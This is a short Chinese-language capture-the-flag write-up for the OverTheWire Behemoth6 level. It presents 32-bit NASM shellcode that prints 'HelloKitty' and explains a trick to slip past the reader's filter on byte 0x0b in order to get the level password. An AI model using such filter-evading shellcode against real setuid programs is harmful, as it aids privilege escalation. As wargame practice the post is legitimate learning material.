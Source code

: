 ```yaml
---
title: Behemoth6
author: rk700
layout: post
categories:
  - article
tags:
  - OverTheWire
  - exploit
---
```

这道题会在behemoth6_reader中执行用户提供的shellcode。我开始想的是直接就在那里把密码读取了，但reader没有setuid，所以权限不够。这样的话就只能写一个输出HelloKitty的shellcode了。代码如下

{% highlight nasm %}
BITS 32

xor eax, eax
push eax
push word 0x7974
push 0x74694b6f
push 0x6c6c6548 ;HelloKitty
mov ecx, esp

mov ebx, eax
mov edx, eax
mov bl, 1
mov dl, 10
inc edx
mov al, 4;write
int 0x80
{% endhighlight %}

注意reader会检查shellcode中是否包含0x0b，而那正好是字符串的长度，作为write的第3个参数。于是我是先赋为10，再加一。

编译保存为shellcode.txt，然后可得到密码
